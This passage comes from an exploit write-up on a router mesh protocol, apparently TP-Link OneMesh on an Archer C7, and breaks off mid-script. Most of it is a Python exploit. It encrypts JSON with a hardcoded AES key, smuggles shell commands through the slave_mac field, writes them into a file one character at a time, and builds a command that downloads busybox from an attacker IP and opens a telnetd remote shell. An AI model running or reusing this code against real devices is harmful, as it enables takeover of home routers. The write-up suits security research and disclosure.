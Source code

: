 Now all we need to do is to submit this and we should see a new file in the root directory called `p`.

# Full Exploit

To do a fuller exploit with a reverse shell, we can download busybox from our machine and use telnetd for a reverse shell by writing wget commands one character at a time into a file and running it.

```python
from pwn import *
import socket
import time
from Crypto.Cipher import AES
import zlib

ATTACKERIP = "192.168.0.125"
ATTACKPORT = "8090"
fileName = "m"

COMMAND = "wget http://"+ATTACKERIP+":8000/busybox-mips -P /tmp;chmod +x /tmp/busybox-mips;/tmp/busybox-mips telnetd -l /bin/sh -p "+ATTACKPORT + " " + ATTACKERIP + ";wget http://" +ATTACKERIP+":8000/index.jpg -P /www;"

print("COMMAND : " + COMMAND)
decryptKey = "TPONEMESH_Kf!xn?gj6pMAt-wBNV_TDP"
ivec = "1234567890abcdef1234567890abcdef"

"""
decryptKey = "TPONEMESH_Kf!xn?"
ivec = "1234567890abcdef"
"""
BLOCKSIZE = 16
pad = lambda s: s + (BLOCKSIZE - len(s) % BLOCKSIZE) * chr(BLOCKSIZE - len(s) % BLOCKSIZE)
unpad = lambda s : s[:-ord(s[len(s)-1:])]

def AESEncrypt(payload):
    
    # the key looks like 256 bits long
    #>>> len("TPONEMESH_Kf!xn?gj6pMAt-wBNV_TDP")*8
    #256
    payload = pad(payload)
    #print("To encrypt : ")
    #print(len(payload))
    cipher = AES.new(decryptKey[:16],AES.MODE_CBC,ivec[0:16])
    #print("ENCRYPTED payload with iv " + ivec + ":  " )
    encText = cipher.encrypt(payload)
    return encText
    
def calcChecksum(packet):
    result = zlib.crc32(packet.encode())
    print("==>  Calculated checksum : " + hex(result))
    return result

def injectCommand(c):
    payload = '{"method":"slave_key_offer","data":{"group_id":"8735fc23-b166-4f27-9acc-ec7cb15b98fc","ip":"192.168.0.125","slave_mac":"XXXXXXXXXXXXXXXXXXXXXX", "slave_private_account":"DEADBEEF", "slave_private_password":"CAFEBABE", "want_to_join":false, "model":"Archer C7","operation_mode":"Superman","product_type":"spiderman"}}'
    payload = payload.split("XXXXXXXXXXXXXXXXXXXXXX")[0] + "';printf '" + c + "'>>" + fileName +  ";'" + payload.split("XXXXXXXXXXXXXXXXXXXXXX")[1]
    return payload

def injectCommandString(s):
```